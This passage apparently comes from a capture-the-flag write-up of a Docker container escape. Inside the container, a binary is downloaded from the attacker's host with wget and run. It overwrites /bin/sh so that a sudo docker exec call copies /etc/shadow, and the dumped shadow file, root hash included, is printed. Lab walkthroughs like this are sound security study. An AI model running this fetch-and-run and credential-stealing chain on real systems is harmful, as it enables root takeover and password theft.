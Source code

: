 The default payload creates a copy of `/etc/shadow` in `/tmp` folder.

The import thing here is: we need to run THIS command:

`sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh`


while on the first shell we see "Overwritten `/bin/bash`"...

```bash
root@a971cc0d34e0:/opt/webapp# wget http://172.17.0.1:8888/main
--2024-04-26 11:22:09--  http://172.17.0.1:8888/main
Connecting to 172.17.0.1:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2110616 (2.0M) [application/octet-stream]
Saving to: ‘main’

main                                            100%[=====================================================================================================>]   2.01M  --.-KB/s    in 0.006s

2024-04-26 11:22:09 (318 MB/s) - ‘main’ saved [2110616/2110616]

root@a971cc0d34e0:/opt/webapp# ls
__pycache__  admin  create_db.py  main  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@a971cc0d34e0:/opt/webapp# chmod +x main
root@a971cc0d34e0:/opt/webapp# ./main
[+] Overwritten /bin/sh successfully <<==== NOW YOU SHOULD RUN DOCKER WITH SUDO

[+] Found the PID: 119
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc00042b380}
[+] The command executed is#!/bin/bash

root@a971cc0d34e0:/opt/webapp#
root@a971cc0d34e0:/opt/webapp#

```


On first shell:

```bash
$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
No help topic for '/bin/sh'
```

And of course we get a copy of `shadow`

```bash
noah@thenotebook:~$ cat /tmp/shadow
root:$6$OZ7vREXE$yXjcCfK6rhgAfN5oLisMiB8rE/uoZb7hSqTOYCUTF8lNPXgEiHi7zduz1mrTWtFnhKOCZA9XZu12osORyYnKF.:18670:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
```